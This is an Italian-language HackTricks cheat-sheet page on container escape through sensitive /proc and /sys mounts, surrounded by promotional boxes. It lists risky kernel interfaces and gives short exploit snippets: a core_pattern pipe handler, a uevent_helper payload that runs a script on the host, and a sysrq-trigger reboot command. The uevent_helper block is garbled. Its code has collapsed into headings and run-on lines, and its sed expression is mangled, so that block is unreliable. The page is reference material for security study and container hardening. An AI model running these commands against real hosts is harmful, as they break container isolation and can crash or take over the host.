 # Mount sensibili

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="../../../../.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

L'esposizione di `/proc` e `/sys` senza un'adeguata isolamento dei namespace introduce rischi significativi per la sicurezza, inclusa l'espansione della superficie di attacco e la divulgazione di informazioni. Queste directory contengono file sensibili che, se configurati in modo errato o accessibili da un utente non autorizzato, possono portare alla fuga del container, alla modifica dell'host o fornire informazioni che facilitano ulteriori attacchi. Ad esempio, il montaggio non corretto di `-v /proc:/host/proc` può eludere la protezione di AppArmor a causa della sua natura basata sul percorso, lasciando `/host/proc` non protetto.

**Puoi trovare ulteriori dettagli su ciascuna vulnerabilità potenziale in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## Vulnerabilità di procfs

### `/proc/sys`

Questa directory consente l'accesso per modificare le variabili del kernel, di solito tramite `sysctl(2)`, e contiene diverse sottodirectory di interesse:

#### **`/proc/sys/kernel/core_pattern`**

* Descritto in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Consente di definire un programma da eseguire alla generazione del file core con i primi 128 byte come argomenti. Ciò può portare all'esecuzione del codice se il file inizia con un pipe `|`.
*   **Esempio di test ed exploit**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Testa l'accesso in scrittura
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Imposta un gestore personalizzato
sleep 5 && ./crash & # Attiva il gestore
```

#### **`/proc/sys/kernel/modprobe`**

* Dettagliato in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Contiene il percorso al caricatore del modulo del kernel, invocato per il caricamento dei moduli del kernel.
*   **Esempio di controllo dell'accesso**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Controlla l'accesso a modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Referenziato in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Un flag globale che controlla se il kernel va in panico o invoca l'OOM killer quando si verifica una condizione OOM.

#### **`/proc/sys/fs`**

* Come da [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), contiene opzioni e informazioni sul file system.
* L'accesso in scrittura può abilitare vari attacchi di negazione del servizio contro l'host.

#### **`/proc/sys/fs/binfmt_misc`**

* Consente di registrare interpreti per formati binari non nativi in base al loro numero magico.
* Può portare a un'escalation dei privilegi o all'accesso alla shell di root se `/proc/sys/fs/binfmt_misc/register` è scrivibile.
* Esploito e spiegazione rilevanti:
* [Rootkit dell'uomo povero tramite binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Tutorial approfondito: [Link al video](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Altri in `/proc`

#### **`/proc/config.gz`**

* Potrebbe rivelare la configurazione del kernel se `CONFIG_IKCONFIG_PROC` è abilitato.
* Utile per gli attaccanti per identificare vulnerabilità nel kernel in esecuzione.

#### **`/proc/sysrq-trigger`**

* Consente di invocare comandi Sysrq, potenzialmente causando riavvii immediati del sistema o altre azioni critiche.
*   **Esempio di riavvio dell'host**:

```bash
echo b > /proc/sysrq-trigger # Riavvia l'host
```

#### **`/proc/kmsg`**

* Espone i messaggi del buffer circolare del kernel.
* Può aiutare negli exploit del kernel, nelle fughe di indirizzi e nel fornire informazioni sensibili sul sistema.

#### **`/proc/kallsyms`**

* Elenca i simboli esportati dal kernel e i loro indirizzi.
* Essenziale per lo sviluppo di exploit del kernel, specialmente per superare KASLR.
* Le informazioni sugli indirizzi sono limitate con `kptr_restrict` impostato su `1` o `2`.
* Dettagli in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfaccia con il dispositivo di memoria del kernel `/dev/mem`.
* Storicamente vulnerabile agli attacchi di escalation dei privilegi.
* Maggiori dettagli in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Rappresenta la memoria fisica del sistema in formato core ELF.
* La lettura può rivelare i contenuti della memoria dell'host e di altri container.
* Le dimensioni del file possono causare problemi di lettura o crash del software.
* Utilizzo dettagliato in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Interfaccia alternativa per `/dev/kmem`, rappresentante la memoria virtuale del kernel.
* Consente la lettura e la scrittura, quindi la modifica diretta della memoria del kernel.

#### **`/proc/mem`**

* Interfaccia alternativa per `/dev/mem`, rappresentante la memoria fisica.
* Consente la lettura e la scrittura, la modifica di tutta la memoria richiede la risoluzione degli indirizzi virtuali in fisici.

#### **`/proc/sched_debug`**

* Restituisce informazioni sulla pianificazione dei processi, eludendo le protezioni dello spazio dei nomi PID.
* Espone nomi dei processi, ID e identificatori cgroup.

#### **`/proc/[pid]/mountinfo`**

* Fornisce informazioni sui punti di mount nello spazio dei mount del processo.
* Espone la posizione del `rootfs` o dell'immagine del container. 

### Vulnerabilità di `/sys`

#### **`/sys/kernel/uevent_helper`**

* Usato per gestire i `uevent` dei dispositivi del kernel.
* Scrivere su `/sys/kernel/uevent_helper` può eseguire script arbitrari al verificarsi dei `uevent`.
*   **Esempio di exploit**: %%%bash

### Crea un payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

### Trova il percorso dell'host dal mount OverlayFS per il container

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

### Imposta uevent\_helper su un helper malizioso

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

### Attiva un uevent

echo change > /sys/class/mem/null/uevent

### Legge l'output

cat /output %%%
#### **`/sys/class/thermal`**

* Controlla le impostazioni di temperatura, potenzialmente causando attacchi DoS o danni fisici.

#### **`/sys/kernel/vmcoreinfo`**

* Rilascia gli indirizzi del kernel, compromettendo potenzialmente il KASLR.

#### **`/sys/kernel/security`**

* Contiene l'interfaccia `securityfs`, consentendo la configurazione dei Moduli di Sicurezza Linux come AppArmor.
* L'accesso potrebbe consentire a un container di disabilitare il suo sistema MAC.

#### **`/sys/firmware/efi/vars` e `/sys/firmware/efi/efivars`**

* Espone interfacce per interagire con le variabili EFI nella NVRAM.
* Una errata configurazione o sfruttamento può portare a laptop bloccati o macchine host non avviabili.

#### **`/sys/kernel/debug`**

* `debugfs` offre un'interfaccia di debug "senza regole" al kernel.
* Storia di problemi di sicurezza dovuti alla sua natura non limitata.

### References

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../../.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
